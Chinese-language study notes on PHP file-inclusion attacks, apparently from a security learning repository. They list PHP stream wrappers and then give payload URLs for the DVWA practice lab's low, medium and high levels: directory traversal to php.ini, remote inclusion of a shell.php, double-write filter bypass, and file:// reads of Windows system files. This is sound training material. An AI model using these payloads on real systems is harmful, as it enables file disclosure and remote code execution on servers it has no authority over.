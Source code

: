 ## PHP伪协议

parse_str(file_get_contents('php://input'), $_PUT);

- file:// — 访问本地文件系统
- http:// — 访问 HTTP(s) 网址
- ftp:// — 访问 FTP(s) URLs
- php:// — 访问各个输入/输出流（I/O streams）
- zlib:// — 压缩流
- data:// — 数据（RFC 2397）
- glob:// — 查找匹配的文件路径模式
- phar:// — PHP 归档
- ssh2:// — Secure Shell 2
- rar:// — RAR
- ogg:// — 音频流
- expect:// — 处理交互式的流

https://www.php.net/manual/zh/wrappers.php 

# DVWA靶场

## low

`../`目录穿越

http://192.168.31.193:8084/vulnerabilities/fi/?page=../../php.ini



远程文件包含

http://192.168.31.193:8084/vulnerabilities/fi/?page=http://192.168.31.193:8090/include.php?file=shell.php

## medium 

双写绕过：

http://192.168.31.193:8084/vulnerabilities/fi/?page=ht`http://`tp://192.168.31.193:8090/shell.php

http://192.168.31.193:8084/vulnerabilities/fi/?page=.`../`./.`../`./php.ini



绝对路径： 

http://192.168.31.193:8084/vulnerabilities/fi/?page=E:/phpstudy_pro/WWW/dvwa.com/php.ini

## high

伪协议：

http://192.168.31.193:8084/vulnerabilities/fi/?page=`file:///`C:/Windows/system.ini

# CTF题目案例
